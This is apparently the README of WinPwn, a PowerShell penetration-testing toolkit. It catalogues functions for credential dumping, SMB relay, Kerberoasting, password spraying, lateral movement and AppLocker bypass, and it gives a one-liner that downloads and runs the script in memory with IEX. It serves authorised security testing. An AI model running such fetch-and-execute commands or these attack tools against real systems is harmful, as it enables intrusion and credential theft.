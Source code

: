 # WinPwn
In many past internal penetration tests I often had problems with the existing Powershell Recon / Exploitation scripts due to missing proxy support. I often ran the same scripts one after the other to get information about the current system and/or the domain. To automate this process and for the proxy reason I wrote my own script with automatic proxy recognition and integration. 
The script is mostly based on well-known large other offensive security Powershell projects. They are loaded into RAM via IEX Downloadstring.

Yes it is not a C# and it may be flagged by antivirus solutions. Windows Defender for example blocks some of the known scripts/functions. Maybe someday a C# Version will follow.

Any suggestions, feedback and comments are welcome!

Just Import the Modules with:
`Import-Module .\WinPwn_v0.7.ps1` or 
`iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/WinPwn_v0.7.ps1')`

Functions available after Import:
1) #### `WinPwn` -> Guides the user through all functions/Modules with simple questions.
2) #### `Inveigh` -> Executes Inveigh in a new Console window , SMB-Relay attacks with Session management (Invoke-TheHash) integrated
3) #### `sessionGopher` -> Executes Sessiongopher Asking you for parameters
4) #### `Mimikatzlocal` -> Executes Invoke-WCMDump and Invoke-Mimikatz
5) #### `localreconmodules` -> Collects infosec relevant system Information, Executes passhunt, Get-Computerdetails and Just another Windows Privilege escalation script + Winspect
6) #### `JAWS` -> Just another Windows Privilege Escalation script
7) #### `domainreconmodules` -> Powerview function output gets stored on disk for review. A search for AD-Passwords in description fields is done. Unconstrained delegation systems/users are enumerated. An AD-Report is generated in CSV Files (or XLS if excel is installed) with ADRecon. 
8) #### `Privescmodules` -> Executes different privesc scripts in memory (PowerUp Allchecks, Sherlock, GPPPasswords)
9) #### `lazagnemodule` -> Downloads and executes lazagne.exe (if not detected by AV) 
10) #### `latmov` -> Searches for Systems with Admin-Access in the domain for lateral movement. Mass-Mimikatz can be used after for the found systems. DomainPassword-Spray for new Credentials can also be used here.
11) #### `empirelauncher` -> Launch powershell empire oneliner on remote Systems
12) #### `shareenumeration` -> Invoke-Filefinder and Invoke-Sharefinder (Powerview / Powersploit)
13) #### `groupsearch` -> Get-DomainGPOUserLocalGroupMapping - find Systems where you have Admin-access or RDP access to via Group Policy Mapping (Powerview / Powersploit)
14) #### `Kerberoasting` -> Executes Invoke-Kerberoast in a new window and stores the hashes for later cracking
15) #### `isadmin` -> Checks for local admin access on the local system
16) #### `Sharphound` -> Downloads Sharphound and collects Information for the Bloodhound DB
17) #### `adidnswildcard` -> Create a Active Directory-Integrated DNS Wildcard Record and run Inveigh for mass hash gathering.


The "oBEJHzXyARrq.exe"-Executable is an obfuscated Version of jaredhaights PSAttack Tool for Applocker/PS-Restriction Bypass (https://github.com/jaredhaight/PSAttack).

## TO-DO
- [x] Some obfuskation
- [ ] More obfuscation
- [ ] Proxy via PAC-File support
- [x] Get the scripts from my own creds repository (https://github.com/SecureThisShit/Creds) to be independent from changes in the original repositories
- [ ] More Recon/Exploitation functions
- [ ] msDS-AllowedToActOnBehalfOfOtherIdentity Ressource based constrained delegation

![alt text](https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/Pwn.png)

## CREDITS

- [X] [Kevin-Robertson](https://github.com/Kevin-Robertson/) - Inveigh, Powermad, Invoke-TheHash
- [X] [Arvanaghi](https://github.com/Arvanaghi/) - SessionGopher
- [X] [PowerShellMafia](https://github.com/PowerShellMafia/) - Powersploit
- [X] [Dionach](https://github.com/Dionach/) - PassHunt
- [X] [A-mIn3](https://github.com/A-mIn3/) - WINSpect
- [X] [411Hall](https://github.com/411Hall/) - JAWS
- [X] [sense-of-security](https://github.com/sense-of-security/) - ADrecon
- [X] [dafthack](https://github.com/dafthack/) - DomainPasswordSpray
- [X] [rasta-mouse](https://github.com/rasta-mouse/) - Sherlock
- [X] [AlessandroZ](https://github.com/AlessandroZ/) - LaZagne
- [X] [samratashok](https://github.com/samratashok/) - nishang
- [X] [leechristensen](https://github.com/leechristensen/) - Random Repo
- [X] [HarmJ0y](https://github.com/HarmJ0y) - Many good Blogposts, Gists and Scripts

## Legal disclaimer:
Usage of WinPwn for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.
